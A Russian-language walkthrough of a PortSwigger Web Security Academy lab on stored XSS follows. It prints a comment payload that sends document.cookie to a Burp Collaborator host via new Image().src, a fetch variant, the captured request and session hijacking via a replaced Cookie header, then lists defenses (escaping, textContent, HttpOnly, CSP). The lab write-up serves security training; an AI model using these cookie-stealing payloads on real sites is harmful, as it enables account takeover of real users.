




## Lab: Exploiting cross-site scripting to steal cookies

**Платформа:** PortSwigger Web Security Academy  
**Категория:** XSS  
**Сложность:** Practitioner  
**Инструмент:** Burp Suite Professional (Collaborator)  
**Дата:** 2025-07-20  

---

## TL;DR
Функция комментариев к блогу уязвима к Stored XSS. Через payload
с `new Image().src` украдена сессионная кука жертвы-администратора
и перехвачена его сессия.

---

## Описание уязвимости

Stored XSS — payload сохраняется в базе данных и выполняется
в браузере каждого пользователя который просматривает заражённую страницу.
В отличие от Reflected XSS не требует отправки специальной ссылки жертве.

```
Атакующий → сохраняет XSS в комментарии
              ↓
Жертва открывает страницу с комментариями
              ↓
Браузер жертвы выполняет payload
              ↓
Куки жертвы улетают на Burp Collaborator
              ↓
Атакующий перехватывает сессию
```

### Почему new Image().src вместо fetch

Решение лабы предлагает `fetch` с `mode: no-cors`. Но `new Image().src`
надёжнее — картинки загружаются без проверки CORS в любых условиях:

```javascript
// fetch — может блокироваться CORS в некоторых браузерах
fetch('https://collaborator.net', {method: 'POST', mode: 'no-cors', body: document.cookie})

// new Image().src — не блокируется CORS никогда
new Image().src='https://collaborator.net/?c='+document.cookie
```

---

## Эксплуатация

### Шаг 1 — Получение Collaborator адреса

В Burp Suite Professional перешла на вкладку **Collaborator**
→ нажала **Copy to clipboard**.

Получила уникальный адрес:
```
lf4x9fb7atlg5qkylkivtc2dh4nvbozd.oastify.com
```



### Шаг 2 — Размещение XSS payload в комментарии

Открыла любой пост блога → форма комментария.
В поле комментария вставила payload:

```html
<script>
new Image().src='http://lf4x9fb7atlg5qkylkivtc2dh4nvbozd.oastify.com/steal?c='+document.cookie
</script>
```

Заполнила обязательные поля (имя, email) и отправила комментарий.

```
Что происходит когда жертва открывает страницу:
1. Браузер загружает комментарии
2. Видит <script> тег
3. Выполняет: new Image().src='http://collaborator/?c='+document.cookie
4. Создаёт невидимую картинку с URL содержащим куки
5. Браузер делает GET запрос на Collaborator
6. Collaborator логирует запрос с куками в параметре c
```



### Шаг 3 — Получение кук жертвы в Collaborator

Перешла в Burp → вкладка **Collaborator** → нажала **Poll now**.

Появился HTTP запрос от браузера жертвы:

```http
GET /steal?c=secret=xxx; session=ЖЕРТВА_КУКА HTTP/1.1
Host: lf4x9fb7atlg5qkylkivtc2dh4nvbozd.oastify.com
```

В параметре `c` — куки жертвы-администратора.



### Шаг 4 — Использование куки для перехвата сессии

Скопировала значение сессионной куки из Collaborator.

В Burp Repeater изменила заголовок `Cookie` в запросе
на главную страницу блога:

```http
GET / HTTP/2
Host: LAB-ID.web-security-academy.net
Cookie: session=УКРАДЕННАЯ_КУКА
```

Отправила запрос — в ответе получила страницу администратора.



---

## Итог

```
Stored XSS в комментарии
         ↓
Payload выполняется в браузере жертвы
         ↓
new Image().src отправляет куки на Collaborator
(без CORS ограничений)
         ↓
Кука сессии администратора перехвачена
         ↓
Сессия угнана через Cookie заголовок в Burp Repeater
```

### Почему Stored XSS опаснее Reflected

```
Reflected XSS:  нужно отправить жертве специальную ссылку
                жертва должна кликнуть
                срабатывает один раз

Stored XSS:     payload хранится на сервере
                срабатывает для КАЖДОГО посетителя
                жертва ничего не подозревает
                не нужно отправлять ссылки
```

---

## Защита

```python
# УЯЗВИМО — вставка комментария без экранирования:
comment_html = f"<p>{user_comment}</p>"

# БЕЗОПАСНО — экранирование HTML:
from html import escape
comment_html = f"<p>{escape(user_comment)}</p>"
```

```javascript
// УЯЗВИМО — вставка через innerHTML:
element.innerHTML = userComment;

// БЕЗОПАСНО — вставка через textContent:
element.textContent = userComment;
```

Дополнительно:
- Флаг `HttpOnly` на сессионных куках — JS не сможет
  прочитать `document.cookie` даже при успешном XSS
- CSP (Content Security Policy) — ограничивает исходящие
  запросы и выполнение inline скриптов
- Валидация и санитизация пользовательского ввода
  на сервере перед сохранением в БД